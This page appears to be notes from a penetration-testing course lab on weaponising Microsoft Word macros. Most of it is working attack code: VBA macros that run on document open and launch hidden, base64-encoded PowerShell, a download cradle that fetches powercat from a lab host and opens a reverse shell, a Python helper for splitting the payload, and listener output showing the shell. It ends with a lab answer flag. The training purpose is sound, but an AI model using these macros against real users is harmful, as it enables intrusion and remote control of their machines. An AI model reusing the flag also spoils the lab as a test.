 # Leveraging Microsoft Word Macros

Default empty macro
>``` shell
>Sub MyMacro()
>'
>' MyMacro Macro
>'
>'
>
>End Sub
>```

Macro opening powershell.exe
>``` shell
>Sub MyMacro()
>
>  CreateObject("Wscript.Shell").Run "powershell"
>  
>End Sub
>```

Macro automatically executing powershell.exe after opening the Document
>``` shell
>Sub AutoOpen()
>
>  MyMacro
>  
>End Sub
>
>Sub Document_Open()
>
>  MyMacro
>  
>End Sub
>
>Sub MyMacro()
>
>  CreateObject("Wscript.Shell").Run "powershell"
>  
>End Sub
>```

Declaring a string variable and provide it as a parameter
>``` shell
>Sub AutoOpen()
>    MyMacro
>End Sub
>
>Sub Document_Open()
>    MyMacro
>End Sub
>
>Sub MyMacro()
>    Dim Str As String
>    CreateObject("Wscript.Shell").Run Str
>End Sub
>```

PowerShell download cradle and PowerCat reverse shell
>``` shell
>IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
>```

Python script to split a base64 encoded PowerShell command string
>``` shell
>str = "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGUAdwA..."
>
>n = 50
>
>for i in range(0, len(str), n):
>	print("Str = Str + " + '"' + str[i:i+n] + '"')
>```

Macro invoking PowerShell to create a reverse shell
>``` shell
>Sub AutoOpen()
>    MyMacro
>End Sub
>
>Sub Document_Open()
>    MyMacro
>End Sub
>
>Sub MyMacro()
>    Dim Str As String
>    
>    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
>        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
>        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
>    ...
>        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
>        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
>        Str = Str + "A== "
>
>    CreateObject("Wscript.Shell").Run Str
>End Sub
>```

Reverse shell from Word macro
>``` shell
>kali@kali:~$ nc -nvlp 4444
>listening on [any] 4444 ...
>connect to [192.168.119.2] from (UNKNOWN) [192.168.50.196] 49768
>Windows PowerShell
>Copyright (C) Microsoft Corporation. All rights reserved.
>
>Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows
>
>PS C:\Users\offsec\Documents>
>```

Lab 1 - Perform the steps from this section to create a malicious Word document containing a macro with the name MyMacro on the OFFICE (VM #1) machine. For this, you have to install Microsoft Office on VM #1 again as outlined in the section "Installing Microsoft Office". Confirm that the macro works as expected by obtaining a reverse shell from the OFFICE machine. We can log in with offsec:lab. What keyword is used to declare a variable in VBA?
>``` shell
>kali@kali:~$ cd Downloads 
>```
>OS{b657f9d1e4b94460c7684ecaf1708353}
